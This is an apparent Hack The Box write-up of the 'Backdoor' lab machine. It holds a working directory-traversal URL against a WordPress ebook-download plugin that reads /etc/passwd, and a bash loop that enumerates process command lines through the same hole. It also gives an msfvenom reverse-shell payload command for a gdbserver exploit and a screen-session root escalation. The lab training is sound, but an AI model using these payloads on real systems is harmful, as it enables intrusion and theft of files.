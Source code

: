 ```yaml
---
title: "Backdoor Hackthebox writeup"
header:
  teaser: "/assets/images/Backdoor/20220423032647.png"
categories:
  - Linux Machines
ribbon: blue
tags:
  [
    "Hackthebox",
    "wordpress",
    "Waste",
    "directory Traversal",
    "gdb server",
    "screen",
  ]
date: 2022-04-23T00:51:12+02:00
toc: true
draft: false
---
```


In this easy Linux box we are facing a wordpress plugin vulnerable to directory traversal letting us reading some files on the system , brute forcing the /proc/[pid] found a vulnerable gdb server running , exploiting it will gain low privilege shell , then abusing the screen binary to get the root access.

<!--more-->

# Scanning

starting with a basic scanning :

```bash
nmap -A -T5 10.10.11.125

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

then checking the full port scan :

```bash
nmap -p- 10.10.11.125

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
```

# Enumeration

- so let's start with the port 80 , it is a simple web application

![error](/assets/images/Backdoor/20220423062021.png)

- no parameters or any user interaction in the main pages.
- checking the source code we can see the `backdoor.htb` which we can add to the `/etc/hosts` and fuzzing Vhosts, But no results

![error](/assets/images/Backdoor/20220423062216.png)

- directory Busting with `dirsearch` default wordlist

```bash
dirsearch -u http://10.10.11.125/ -x 403,404

[00:18:04] 200 -   19KB - /license.txt
[00:18:09] 200 -    7KB - /readme.html
[00:18:13] 301 -  315B  - /wp-admin  ->  http://10.10.11.125/wp-admin/
[00:18:13] 500 -    3KB - /wp-admin/setup-config.php
[00:18:13] 400 -    1B  - /wp-admin/admin-ajax.php
[00:18:13] 200 -    0B  - /wp-config.php
[00:18:13] 200 -    0B  - /wp-content/
[00:18:14] 500 -    0B  - /wp-content/plugins/hello.php
[00:18:14] 200 -  776B  - /wp-content/upgrade/
[00:18:14] 200 -    1KB - /wp-content/uploads/
[00:18:14] 301 -  318B  - /wp-includes  ->  http://10.10.11.125/wp-includes/
[00:18:14] 200 -    0B  - /wp-includes/rss-functions.php
[00:18:14] 200 -    0B  - /wp-cron.php
[00:18:14] 200 -    6KB - /wp-login.php
```

- i should have noticed it from wappalayzer , however the Directory Busting reveals wordpress is running
- we can start enumerating possible users with **wpscan** or start fuzzing username and password but i spent alot of time at this rabbit hole with no lead.
- we can check the plugins from `/wp-content/plugins` path , we can know that from [this](https://github.com/WordPress/WordPress/tree/master/) repository showing the default structure of a wordpress web application.

![error](/assets/images/Backdoor/20220423063249.png)

- searching for it :

![error](/assets/images/Backdoor/20220423063357.png)

- first result seems promising let's view it :

```bash
searchsploit -x 39575.txt
```

![error](/assets/images/Backdoor/20220423063508.png)

- trying the POC we have :

![error](/assets/images/Backdoor/20220423063751.png)

- downloading the file , we can read it confirming the exploit is working

![error](/assets/images/Backdoor/20220423063824.png)

using :

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../../etc/passwd
```

![error](/assets/images/Backdoor/20220423063953.png)

- we know their is a user **user** , now we can try reading other sensitive files on the system
- check [this](https://zsahi.wordpress.com/2018/09/10/file-inclusion/) blog , talking about some interesting files to check whenever you have Directory Traversal / LFI
- Trying a lot of them until `## Proc File System` , we can query processes
- remember the WASTE port we found in the full port scan, which we do not know the service running on it
- we can brute-force the Processes running on the system until we know what is the service running at this port
- using bash :

```bash
#!/bin/bash

i=2
while  [ 1 ]
do
curl  "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/$i/cmdline"  2>/dev/null  > response.txt
((i++))
tmp=$(cat response.txt 2>/dev/null)
if [[ $tmp  == *"1337"* ]]
then
echo  "Process ID $i is the one."
break
fi
echo   "Process ID $i failed."
done
```

![error](/assets/images/Backdoor/20220423071608.png)

```bash
 ~/CTFs/HTB/Backdoor$ cat response2.txt
/proc/814/cmdline/proc/814/cmdline/proc/814/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>%
```

- and we know now **gdb server** is running on that port , searching for exploits found [this](https://www.exploit-db.com/exploits/50539) one

# Foothold

- trying the steps mentioned in the exploit :

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=4444 PrependFork=true -o rev.bin
```

![error](/assets/images/Backdoor/20220423072122.png)

- and we got a shell as user **user**

# Privilege escalation

```bash
find / -perm -4000 2>/dev/null
```

![error](/assets/images/Backdoor/20220423072343.png)

- screen binary with SUID doesn't have a clear path to gain root access, we can enumerate if the process is running with

```bash
ps -ef --forest
```

![error](/assets/images/Backdoor/20220423072550.png)

- i have uploaded the [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64) to understand the process more

![error](/assets/images/Backdoor/20220423072808.png)

![error](/assets/images/Backdoor/20220423073116.png)

- reading about abusing other user's screen session [here](https://possiblelossofprecision.net/?p=1993)

![error](/assets/images/Backdoor/20220423073257.png)

- so we can attach to this root screen with :

```bash
# screen -x [user]/screen
screen -x root/root
```

![error](/assets/images/Backdoor/20220423073352.png)

### [BONUS] After root

running `crontab -e` to see how things were configured to work :

![error](/assets/images/Backdoor/20220423073455.png)

- we can see the gdb server and the Screen binary cron jobs
